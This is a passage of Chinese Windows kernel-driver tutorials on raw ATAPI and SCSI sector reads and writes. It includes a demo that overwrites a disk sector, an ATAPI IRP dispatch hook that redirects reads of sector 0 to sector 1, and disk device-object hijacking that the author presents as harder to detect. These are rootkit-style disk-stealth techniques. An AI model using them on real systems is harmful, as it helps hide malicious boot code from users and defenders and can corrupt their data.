                    lpNewNode->DiskDeviceObject = lpDiskDeviceObject;
                    lpNewNode->Layout = NULL;
                    lpNewNode->DriverNumber = DeviceNumber;
                    lpNewNode->DiskFileObject = lpFileObject;
                    lpNewNode->hFile = hFile;
                    g_HarddiskHeader = lpNewNode;
                    bFind = TRUE;
                    *Result = lpNewNode;
                    Status = STATUS_SUCCESS;
                }
                lpDeviceSeek = lpDeviceSeek->AttachedDevice;
            }
            if (bFind)
                break;
            lpAtapiDeviceObject = lpAtapiDeviceObject->NextDevice;
        }
```

上面这个函数回答了第一个和第二个问题，对于第三个问题，获得物理磁盘设备对象之后，向每个物理磁盘设备对象发送 IOCTL_DISK_GET_DRIVE_LAYOUT_EX 控制码就可以得到每个物理磁盘的分区信息。注意，Windows XP 上可以直接发送到通过上述代码获取的 ATAPI 设备对象上，Windows 7 下分区管理是一个更上层的驱动，所以需要找到顶层的驱动来发送这个控制码。驱动返回得到的是如下一个结构体：

```c
typedef struct _PARTITION_INFORMATION_EX {
    PARTITION_STYLE PartitionStyle;
    LARGE_INTEGER StartingOffset;
    LARGE_INTEGER PartitionLength;
    ULONG PartitionNumber;
    BOOLEAN RewritePartition;
    union {
        PARTITION_INFORMATION_MBR Mbr;
        PARTITION_INFORMATION_GPT Gpt;
    } DUMMYUNIONNAME;
} PARTITION_INFORMATION_EX, *PPARTITION_INFORMATION_EX;
```

怎么把这个结构体对应到相应的盘符上呢？没有直接的对应关系，但我们可以先打开卷，给卷设备发送 IOCTL_STORAGE_GET_DEVICE_NUMBER 控制码来得到卷对应的物理磁盘号码和分区号，这样就可以把盘符对应到上面那个分区信息上了。有了分区信息，在读写分区时，只需要把分区偏移加上去就可以实现分区的读写了。我们可以将其封装成两个比较好用的接口函数：

```c
NTSTATUS
ReadWritePhysicalDisk(
    ULONG DeviceNumber,
    UCHAR MajorFunction,
    PLARGE_INTEGER Location,
    PVOID Buffer,
    ULONG Length,
    PULONG RetLen);
```

```c
NTSTATUS
ReadWriteVolumeDisk(
    WCHAR Volume,
    UCHAR MajorFunction,
    PLARGE_INTEGER Location,
    PVOID Buffer,
    ULONG Size,
    PULONG RetLen);
```

作为演示，这里使用如下代码把 1 号扇区设置成全部置 1。

```c
VOID
AtapiTestRoutine()
{
    ULONG dwRetSize;
    LARGE_INTEGER Offset;
    BYTE Buffer[512];
    BYTE Buffer2[512] = {0};

    memset(Buffer, 1, 512);
    Offset.QuadPart = 0x200;

    ReadWritePhysicalDisk(0, IRP_MJ_WRITE, &Offset, Buffer, 512, &dwRetSize);
    ReadWritePhysicalDisk(0, IRP_MJ_READ, &Offset, Buffer2, 512, &dwRetSize);
}






```

使用 WinHex 打开磁盘可以看到效果，设置前如图 2 所示，调用测试函数之后，可以看到如图 3 所示的效果，已经被修改！
图 2
图 3

从分析和代码来看，ATAPI 读写磁盘重点在于 SRB 的填写和 IRP 的填写，SRB 有微软的文档可以参考，对于像 CDB 这种没有文档参考的，可以参考 classpnp 这个 WDK 自带的驱动，多多调试就会明白了，总体来说难度不大。

### ATAPI IRP HOOK 实现扇区重定位

### 文 / 鹿剑

黑客防线杂志伴随我度过了美好的大学时光，在阅读杂志的过程中不断地学习 Windows 安全编程，获益匪浅。本文主要描述使用 ATAPI 的 IRP HOOK 实现扇区重定向。ATAPI 层是 Windows 系统中存储系统 IRP 的终结点，ATAPI 以下就已经不是使用 IRP 来读写了，所以 ATAPI 是拦截磁盘 IRP 操作的最后一站。拦截磁盘实现重定向主要有两种方法，一种就是最普通的 IRP 分发例程 HOOK，另外一种是 DISK 设备扩展中的设备对象劫持。本文主要讨论第一种方法，对第二种方法也会进行一些简要描述。

IRP 分发例程的 HOOK，往期的黑防已有完整的介绍了，这里不对原理进行赘述，只要熟悉驱动编程的都知道，每个驱动对象中都保存有一组处理 IRP 的分发函数指针，替换这里的指针即可简单地接管 IRP。对于本文要实现的扇区重定位来说，只需要检测 IRP 中目的 LBA 地址是否包含要被重定向的地址，如果包含则进行一些替换操作即可。为了实现上述目的，需要如下步骤：

- 1) 获取 ATAPI 驱动对象，这样才能替换驱动对象中的分发函数指针；
- 2) 确定过滤的 IRP 函数是哪个；
- 3) 确定需要过滤的设备对象是哪个，注意，ATAPI 会生成多个设备对象，需要判断目标到底是哪个；
- 4) IRP 的解包以及重组。

通常的驱动读写都是 IRP_MJ_READ 和 IRP_MJ_WRITE，但 ATAPI 比较特殊，实现写使用的是 IRP_INTERNAL_DEVICE_CONTROL，这个很像 TDI 层的驱动，也是使用 IRP_INTERNAL_DEVICE_CONTROL 实现数据收发的。知道了这一点可以解决第二个问题，真正的读写操作使用 SRB 指令来实现，数据结构为 SCSI_REQUEST_BLOCK（在 srb.h 文件中定义）。

关于 SCSI_REQUEST_BLOCK 指令的填写和解析操作，可以参考《ATAPI 实现扇区读写》这篇文章，所以第四个问题得以解决。

获取 ATAPI 驱动对象可以使用 ObReferenceObjectByName 函数，传递驱动的名字 `\\Driver\\ATAPI` 进去后可以获取到，从而解决第一个问题。对于第三个问题，虽然 ATAPI 驱动会生成多个设备对象，但真正处理读写操作的设备对象的类型是 FILE_DEVICE_DISK，这种类型的设备对象就是我们需要的了。明白了以上几点，实现代码就比较容易了，我们来看看实现的代码。

```c
NTSTATUS
HookAtapiTest(BOOLEAN Hook)
{
    NTSTATUS Status = STATUS_INFO_LENGTH_MISMATCH;
    PDRIVER_OBJECT lpDriverObj = NULL;

    // if (IsWin8())
    // {
    //     Status = OpenDriverObject(L"\\Driver\\storahci", &lpDriverObj);
    // }
    // else
    // {
        Status = OpenDriverObject(L"\\Driver\\ATAPI", &lpDriverObj);
    // }

    if (NT_SUCCESS(Status))
    {
        if (Hook)
        {
            g_Dispatch =
                (PDRIVER_DISPATCH)InterlockedExchange(
                    (LONG*)&lpDriverObj->MajorFunction[IRP_MJ_SCSI],
                    (LONG)Detour_DeviceInternalControl);
        }
        else
        {
            ...
        }
    }
}
```

```c
{
    InterlockedExchange((LONG*)&lpDriverObj->MajorFunction[IRP_MJ_SCSI], (LONG)g_Dispatch);
}
ObDereferenceObject(lpDriverObj);
return STATUS_SUCCESS;
}
return STATUS_UNEXPECTED_IO_ERROR;
}
```

从这里我注释的那几行代码可以知道，处理 SRB 的驱动到了 Windows 8 下发生了变化，不再是 `\\Driver\\ATAPI`，使用 DeviceTree 看一下就可以知道，分发函数不处于只读内存，可以直接修改，不需要关保护或者进行其他同步措施。

挂钩的实现异常简单，关键是重定向部分，我们继续往下走。根据《ATAPI 实现扇区读写》一文，读写磁盘在 Windows XP 和 Windows 7 甚至 Windows 8 下都使用了相同的长度是 10 的这种 CDB（CDB 的定义见 WDK 的 scsi.h 头文件）。

```c
struct _CDB10 {
    UCHAR OperationCode;
    UCHAR RelativeAddress : 1;
    UCHAR Reserved1 : 2;
    UCHAR ForceUnitAccess : 1;
    UCHAR DisablePageOut : 1;
    UCHAR LogicalUnitNumber : 3;
    UCHAR LogicalBlockByte0;
    UCHAR LogicalBlockByte1;
    UCHAR LogicalBlockByte2;
    UCHAR LogicalBlockByte3;
    UCHAR Reserved2;
    UCHAR TransferBlocksMsb;
    UCHAR TransferBlocksLsb;
    UCHAR Control;
} CDB10;
```

写操作的第一个字段是 SCSIOP_WRITE，读的时候是 SCSIOP_READ，其中红色的部分是我们需要特别关注的。LogicalBlockByte3 到 LogicalBlockByte0 分别是长度是 ULONG 的 LBA 块地址（扇区号）的低字节到高字节（和 Windows 内存存放顺序相反），TransferBlocksMsb 是要操作扇区的数目的高字节，TransferBlocksLsb 是要操作扇区的数目的低字节，例如把 0 号扇区重定向到 10 号扇区，只需要把 `LogicalBlockByte3` 设置到 10 就可以了。

在实际中通常会遇到两种情况：第一种是只读取一个扇区，并且就是我们要重定向的扇区，这种情况很好处理，只需要直接替换扇区号码就可以了；第二种情况是一次读取多个扇区，其中包含了我们要重定向的扇区。第二种情况的重定向有多种做法：一是直接下发 IRP，等 IRP 完成了，再替换 Buffer 中的内容；二是拆分成几个 IRP 下发，等拆分的 IRP 都完成了，再完成主 IRP 就可以了。本文演示第一种方法，比较简单，适合重定位扇区比较少的情况；第二种方法比较适合商用，可以在重定位扇区比较多的场景使用。代码用于把 0 号扇区的数据重定向到 1 号扇区。

```c
NTSTATUS
NTAPI
Detour_DeviceInternalControl(PDEVICE_OBJECT lpDevice, PIRP pIrp)
{
    PIO_STACK_LOCATION Stack = IoGetCurrentIrpStackLocation(pIrp);
    PSCSI_REQUEST_BLOCK srb = NULL;
    NTSTATUS Status = 0;
    PCDB pCdb = NULL;

    if (Stack->MajorFunction == IRP_MJ_SCSI)
    {
        if (lpDevice->DeviceType == FILE_DEVICE_DISK)
        {
            srb = (PSCSI_REQUEST_BLOCK)Stack->Parameters.Scsi.Srb;
            if (srb->Function == SRB_FUNCTION_EXECUTE_SCSI
                && srb->CdbLength == 10)
            {
                pCdb = (PCDB)srb->Cdb;
                if (srb->SrbFlags & SRB_FLAGS_DATA_IN)
                {
                    KdPrint(("Receiver Read disk request-----%08X\n", pCdb));
                    PrintSrbBuffer(srb);
                }

                ULONG Lba, Len;
                if (ParseLBAAndLength(pCdb, &Lba, &Len))
                {
                    if (Lba == 0)
                    {
                        if (Len == 1)
                        {
                            // 如果只是读取一个扇区，并且就是要重定向的扇区，比较好办，直接替换。
                            // 前面说了是倒序，所以这里是 LogicalBlockByte3，而不是 LogicalBlockByte0
                            pCdb->CDB10.LogicalBlockByte3 = 1;
                            // 重定向到 1 扇区
                        }
                        else
                        {
                            // 到这里就是上面的第二种情况，需要实现完成例程的 Hook，
                            // 在完成例程中实现 Buffer 替换。
                            // 注意，ATAPI 的很多 IRP 都是异步的，所以不要指望在分发函数返回时就去修改 buffer，
                            // 标准的做法是替换完成例程，在完成例程里实现替换。

                            PCOMPLETE_CONTEXT Context =
                                (PCOMPLETE_CONTEXT)AllocateNonPagedBuffer(sizeof(COMPLETE_CONTEXT));
                            Context->Routine = Stack->CompletionRoutine;
                            Context->Control = Stack->Control;
                            Context->Context = Stack->Context;

                            Stack->CompletionRoutine = ATAPIReadIoCompletion;
                            Stack->Context = Context;
                            Stack->Control = SL_INVOKE_ON_SUCCESS | SL_INVOKE_ON_ERROR | SL_INVOKE_ON_CANCEL;
                        }
                    }
                }
            }
        }
    }

    Status = g_Dispatch(lpDevice, pIrp);
    return Status;
}
```

#### 完成例程

完成例程很简单，下面的 `g_Buffer` 中保存了 1 号扇区的数据。注意 ATAPI 的 IRP 输出地址使用的是 MDL 描述。

```c
NTSTATUS
__stdcall
ATAPIReadIoCompletion(
    IN PDEVICE_OBJECT DeviceObject,
    IN PIRP Irp,
    IN PVOID Context
)
{
    NTSTATUS Status = STATUS_SUCCESS;
    PVOID Buffer = NULL;
    PCOMPLETE_CONTEXT pContext = (PCOMPLETE_CONTEXT)Context;

    if (Irp->MdlAddress)
    {
        Buffer = MmGetSystemAddressForMdlSafe(Irp->MdlAddress, NormalPagePriority);
        if (Buffer)
        {
            KdPrint(("hit!!!!\n"));
            RtlCopyMemory(Buffer, g_Buffer, 512);
        }
    }

    if (pContext)
    {
        if (pContext->Routine)
        {
            Status = pContext->Routine(DeviceObject, Irp, pContext->Context);
        }
        FreeBuffer(pContext);
    }

    return Status;
}



```

IRP Hook 实现方法易于被检测，所以现在有一些使用磁盘设备对象劫持的方法。劫持的方法其实很简单，我们来看 disk 的设备对象，如图 1 所示。
图 1

这里面有一个设备扩展 `DeviceExtension`，我们直接 `dd` 查看这块内存，如图 2 所示。

```text
kd> dd 0x833d6b70
833d6b70  00000003 833d6ab8 833ce9e8 833d6b70
833d6b80  833c78f0 00000001 00040001 00000000
833d6b90  833d6b90 833d6b90 ffffffff ffffffff
833d6ba0  00000000 833d6e38 0000ff07 00000000
833d6bb0  002c002a e1018980 833d5d20 00000000
833d6bc0  fff00000 0000000f 00000000 00000000
833d6bd0  833c78fc 00000002 00000001 00000000
833d6be0  00040001 00000001 833d6be8 833d6be8

kd> !devobj 833ce9e8
Device object (833ce9e8) is for:
  \Driver\ACPI DriverObject 833e2f38
Current Irp 00000000 RefCount 0 Type 00000032 Flags 00000050
Dacl e100f214 DevExt 833e2268 DevObjExt 833ceaa0
ExtensionFlags (00000000)
AttachedDevice (Upper) 833d6ab8 \Driver\Disk
AttachedTo (Lower) 833cd940 \Driver\atapi



```

图 2

看到了吧，设备扩展 +8 的地址就是 ATAPI 的设备对象指针，下发 IRP 的时候会使用这个设备。所以劫持的原理就是替换 DISK 设备扩展中的这个底层 ATAPI 设备的指针为自己驱动的指针，这样 IRP 就会被转发到我们的驱动，在驱动中进行一些过滤操作就可以了，过滤原理同上，就不再赘述了。

使用驱动加载工具加载测试驱动，使用 WinHex 打开物理磁盘，可以看到 0 号扇区的数据已经被重定向到 1 号扇区了，如图 3 所示。虚拟机的 1 号扇区因为测试过《ATAPI 实现扇区读写》里面的驱动，所以是全 1。
图 3

### 发送 SCSI 指令实现读写扇区

图/文 DebugMe

发送 SCSI 指令读写扇区的本质，其实就是填写一个 `SCSI_REQUEST_BLOCK` 结构，然后构造一个 IRP 发送给磁盘类驱动或小端口驱动的设备对象。`SCSI_REQUEST_BLOCK` 的结构如下：

```c
typedef struct _SCSI_REQUEST_BLOCK {
    USHORT  Length;    // 该结构体的大小，sizeof(SCSI_REQUEST_BLOCK)
    UCHAR   Function;  // 要执行的操作，SRB_FUNCTION_EXECUTE_SCSI 为执行 IO 操作
    UCHAR   SrbStatus;  // 用于返回请求的完成状态
    UCHAR   ScsiStatus; // 返回 SCSI 状态
    UCHAR   PathId;
    UCHAR   TargetId;
    UCHAR   Lun;
    UCHAR   QueueTag;
    UCHAR   QueueAction;
    UCHAR   CdbLength;  // CDB 命令块的长度
    UCHAR   SenseInfoBufferLength; // SenseInfoBuffer 的长度
    ULONG   SrbFlags;   // SRB_FLAGS_DATA_IN 为从设备读出数据，
                        // SRB_FLAGS_DATA_OUT 为向设备写入数据
    ULONG   DataTransferLength; // 传输的数据长度
    ULONG   TimeOutValue;       // 超时时间
    PVOID   DataBuffer;         // 数据缓冲区
    PVOID   SenseInfoBuffer;    // 指向一块缓冲区，当设备出现异常时，它会向该缓冲区中填写错误信息
    struct _SCSI_REQUEST_BLOCK  *NextSrb;
    PVOID   OriginalRequest;    // 指向相关的 IRP
    PVOID   SrbExtension;
    union {
        ULONG  InternalStatus;
        ULONG  QueueSortKey;
        // 读写的逻辑块地址，即起始偏移（从 0 开始，以扇区为单位）
    };
    UCHAR  Cdb[16];   // SCSI 总线命令
```

上面只对它的一些关键字段做了简单的介绍，具体可参见 WDK 对该结构的说明。下面着重说明一下 CDB（最后一个字段）。CDB 才是最终发送给设备的真正的 SCSI 命令，而 SRB 可以看成是操作系统对其的一次封装。CDB 的长度有多种（6、10、12、16 字节等几种长度），`Srb->CdbLength` 描述了其长度，这里选择 10 字节的硬盘命令来介绍，其结构如图 1 所示。

| Bit/Byte | 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |
|---|---|---|---|---|---|---|---|---|
| 0 |  |  |  | OPERATION CODE |  |  |  |  |
| 1 | miscellaneous CDB information |  |  |  | SERVICE ACTION (if required) |  |  |  |
| 2 | (MSB) |  |  |  |  |  |  |  |
| 3 |  |  |  | LOGICAL BLOCK ADDRESS (if required) |  |  |  |  |
| 4 |  |  |  | LOGICAL BLOCK ADDRESS (if required) |  |  |  |  |
| 5 |  |  |  |  |  |  |  | (LSB) |
| 6 |  |  |  | miscellaneous CDB information |  |  |  |  |
| 7 | (MSB) |  |  | TRANSFER LENGTH (if required) / PARAMETER LIST LENGTH (if required) / ALLOCATION LENGTH (if required) |  |  |  |  |
| 8 |  |  |  |  |  |  |  | (LSB) |
| 9 |  |  |  | CONTROL |  |  |  |  |

图 1

其中第一字节是操作码，定义了命令的类型和长度，对于不同的设备类型，具有不同的含义。对于硬盘来说，`0x28` 代表读操作，`0x2A` 代表写操作。第二字节包含一些附加参数位和保留位，可直接填 0。接下来是需要操作的逻辑块地址，用 4 字节表示，第 8 和 9 字节表示传输的长度（以扇区为单位），最后一字节是控制字节，填 0 即可。更多的关于 SCSI 命令的介绍可参考《SCSI 协议与 IDE 接口》一书。需要特别注意的是，CDB 命令中逻辑块地址和要传输的数据长度采用的是大端表示法，而 x86 PC 采用的是小端表示法，因此我们需要做一下转换，这里实现了以下两个辅助的转换函数。

```c
ULONG ConvertByteOrderLong(ULONG Value) // 4 字节的字节序转换
{
    ULONG NewValue;
    PUCHAR OldBytes = (PUCHAR)&Value;
    PUCHAR NewBytes = (PUCHAR)&NewValue;
    NewBytes[0] = OldBytes[3];
    NewBytes[1] = OldBytes[2];
    NewBytes[2] = OldBytes[1];
    NewBytes[3] = OldBytes[0];
    return NewValue;
}

USHORT ConvertByteOrderShort(USHORT Value) // 2 字节的字节序转换
{
    USHORT NewValue;
    ((PUCHAR)&NewValue)[0] = ((PUCHAR)&Value)[1];
    ((PUCHAR)&NewValue)[1] = ((PUCHAR)&Value)[0];
    return NewValue;
}
```

接下来我们就根据前面的介绍，开始填写一个 SRB 结构。

```c
BOOLEAN
InitSrb(PSCSI_REQUEST_BLOCK Srb, // 需要填写的 SRB 的指针
    ULONG Operation,             // SCSI_READ 读取操作，SCSI_WRITE 写操作
    PVOID Buffer,                // 输入输出缓冲区
    ULONG Position,              // 操作的起始位置
    ULONG BlockCount)            // 需要操作多少个扇区的数据
{
    PVOID SenseInfoBuffer;
    SenseInfoBuffer = ExAllocatePool(NonPagedPool, 255); // 分配一个 SenseInfoBuffer，这里我们不关心该缓冲区，给它分配一个最大的 255 字节
    if (SenseInfoBuffer == NULL)
        return FALSE;

    RtlZeroMemory(SenseInfoBuffer, 255);
    RtlZeroMemory(Srb, sizeof(SCSI_REQUEST_BLOCK));

    if (Operation == SCSI_READ)   // 判断操作类型
    {
        Srb->SrbFlags |= SRB_FLAGS_DATA_IN;  // 从设备读取数据
        Srb->SrbFlags |= SRB_FLAGS_ADAPTER_CACHE_ENABLE;
    }
    else
    {
        Srb->SrbFlags |= SRB_FLAGS_DATA_OUT; // 向设备写入数据
    }

    Srb->SrbFlags |= SRB_FLAGS_DISABLE_AUTOSENSE;
    Srb->Length = sizeof(SCSI_REQUEST_BLOCK); // SRB 的大小
    Srb->Function = SRB_FUNCTION_EXECUTE_SCSI; // 执行 SCSI 命令
    Srb->QueueAction = SRB_FLAGS_DISABLE_AUTOSENSE;
    Srb->DataBuffer = Buffer; // 数据缓冲区
    Srb->DataTransferLength = BlockCount * 512; // 需要传输的数据长度（每扇区大小为 512 Byte）
    Srb->TimeOutValue = (Srb->DataTransferLength >> 10) + 1; // 超时时间
    Srb->SenseInfoBuffer = SenseInfoBuffer;
    Srb->SenseInfoBufferLength = 255;
    Srb->QueueSortKey = Position; // 操作的起始位置（以扇区为单位，从 0 开始计数）
    Srb->CdbLength = 10; // CDB 命令长度，此处选择 10 Byte 的 CDB 命令
    Srb->Cdb[0] = Operation; // 操作类型
    Srb->Cdb[1] = 0;
    *(PULONG)&(Srb->Cdb[2]) = ConvertByteOrderLong(Position); // 操作的起始位置
    *(PUSHORT)&(Srb->Cdb[7]) = ConvertByteOrderShort((USHORT)BlockCount); // 数据大小（以扇区为单位）
    return TRUE;
}
```

有了该结构体后，就可以构造 IRP 发送给设备了。现在我们需要得到目标设备，可以是磁盘类驱动中的设备或者是磁盘小端口驱动中的设备（其实它们在一个设备栈中，类驱动的设备附加在小端口驱动的设备上）。这里我们选择磁盘类驱动的设备，在磁盘类驱动中，代表第一块磁盘的设备的名称一般是 DR0。下面的代码获得磁盘类驱动的 DR0 设备对象，先打开磁盘类驱动对象，然后遍历其设备（搞不懂为什么直接调用 ObReferenceObjectByName 来获取一直不成功）。

```c
PDEVICE_OBJECT GetDiskDeviceObject()
{
    ……
    RtlInitUnicodeString(&DiskDriverName, L"\\Driver\\Disk");
    InitializeObjectAttributes(&ObjectAttributes,
                               &DiskDriverName,
                               OBJ_CASE_INSENSITIVE,
                               NULL,
                               NULL);
    //打开驱动对象
    Status = ObReferenceObjectByName(&DiskDriverName,
                                     OBJ_CASE_INSENSITIVE,
                                     NULL,
                                     FILE_ALL_ACCESS,
                                     *IoDriverObjectType,
                                     KernelMode,
                                     NULL,
                                     &DiskDriverObject);
    ……
    ObDereferenceObject(DiskDriverObject);
    DiskObject = DiskDriverObject->DeviceObject;
    //遍历驱动对象的设备对象，当设备对象的类型为 FILE_DEVICE_DISK 时，即为 DR0
    while (DiskObject != NULL)
    {
        if (DiskObject->DeviceType == FILE_DEVICE_DISK)
            break;
        DiskObject = DiskObject->NextDevice;
    }
    return DiskObject;
}
```

有了设备对象后，就可以构造包含上述 SRB 的 IRP 发送给设备对象了。

```c
NTSTATUS ScsiReadWrite(PDEVICE_OBJECT DeviceObject,  //设备对象（磁盘类驱动设备等）
                       ULONG Operation,               //SCSI_READ 读取，SCSI_WRITE 写
                       PVOID Buffer,                  //数据缓冲区
                       ULONG BufferLength,            //缓冲区长度
                       ULONG Position,                //操作的起始位置
                       ULONG BlockCount)              //操作的扇区数
{
    ……  //调用 InitSrb 初始化 SRB
    ……

    //下面判断设备 IO 类型，并设置 IRP 的相关缓冲区
    if (DeviceObject->Flags & DO_BUFFERED_IO)
        Irp->AssociatedIrp.SystemBuffer = Buffer;
    else if (DeviceObject->Flags & DO_DIRECT_IO)
    {
        Mdl = IoAllocateMdl(Buffer, BufferLength, FALSE, FALSE, Irp);
        if (Mdl == NULL)
            goto clear1;
        Irp->MdlAddress = Mdl;
        MmBuildMdlForNonPagedPool(Mdl);
    }
    else
        Irp->UserBuffer = Buffer;

    ……
    //以下初始化 Irp
    Irp->UserIosb = &IoStatus;
    Irp->UserEvent = &WaitEvent; //设置等待事件
    Irp->Flags = IRP_NOCACHE | IRP_SYNCHRONOUS_API;
    Irp->Cancel = FALSE;
    Irp->RequestorMode = KernelMode;
    Irp->CancelRoutine = NULL;
    Irp->Tail.Overlay.Thread = PsGetCurrentThread();
    IoStack = IoGetNextIrpStackLocation(Irp);
    IoStack->DeviceObject = DeviceObject;
    IoStack->MajorFunction = IRP_MJ_SCSI; //设置 IRP 主功能号 IRP_MJ_SCSI
    IoStack->Parameters.Scsi.Srb = Srb;   //将 SRB 作为其参数
    IoSetCompletionRoutine(Irp, ScsiCompletionRoutine, Srb, TRUE, TRUE, TRUE); //设置完成例程
    Status = IoCallDriver(DeviceObject, Irp); //向设备发送 IRP
    ……
    ……
}

